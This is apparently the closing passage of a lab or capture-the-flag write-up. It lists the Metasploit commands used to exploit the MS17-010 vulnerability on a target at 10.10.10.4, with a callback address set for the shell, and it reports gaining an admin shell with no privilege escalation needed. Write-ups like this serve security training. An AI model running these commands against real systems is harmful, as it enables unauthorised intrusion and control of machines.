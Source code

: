 ![](images-legacy/others5.png)

**Commands:**
```
msfconsole
msf> search ms17-010
msf> use 10
msf> show options
msf> set RHOSTS 10.10.10.4
msf> set LHOST 10.10.14.12
msf> exploit
```

BANG! We were able to exploit the system with ms17-010 psexec exploit. Anyone who is trying to exploit this machine can use any of the exploit, both of them gives you a direct admin privileged shell, so there is no need for privilege escalation.

## Conclusion - lesson learned
